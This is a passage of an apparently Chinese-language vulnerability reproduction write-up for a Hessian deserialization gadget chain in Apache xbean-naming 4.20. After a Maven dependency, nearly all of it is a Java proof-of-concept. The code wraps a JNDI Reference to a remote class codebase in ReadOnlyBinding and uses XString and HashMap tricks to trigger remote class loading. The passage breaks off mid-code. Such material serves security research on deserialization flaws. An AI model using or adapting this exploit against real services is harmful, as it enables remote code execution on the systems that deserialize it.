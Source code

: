 ## 环境搭建

```
<dependency>
    <groupId>org.apache.xbean</groupId>
    <artifactId>xbean-naming</artifactId>
    <version>4.20</version>
</dependency>
```

## 漏洞复现

POC

```
package Unser.Hessians.XBean;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.xbean.naming.context.WritableContext;
import javax.naming.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.Base64;
import java.util.HashMap;

public class Payload {

    public static void main(String[] args) throws Exception{
        String codebase = "http://127.0.0.1:8082/";
        String clazz = "exp";

        Reference reference = new Reference("DawnT0wn",clazz,codebase);

        Class readonly = Class.forName("org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding");
        Constructor constructor = readonly.getDeclaredConstructor(String.class,Object.class,Context.class);
        Context context = new WritableContext();
        Object objects = constructor.newInstance("DawnT0wn",reference,context);

        XString xString = new XString("");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",objects);
        map1.put("bB",xString);
        map2.put("aa",xString);
        map2.put("bB",objects);
        HashMap map = new HashMap();
        map.put("a","");
        map.put(map2,"");
        Field field = map.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(map);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
```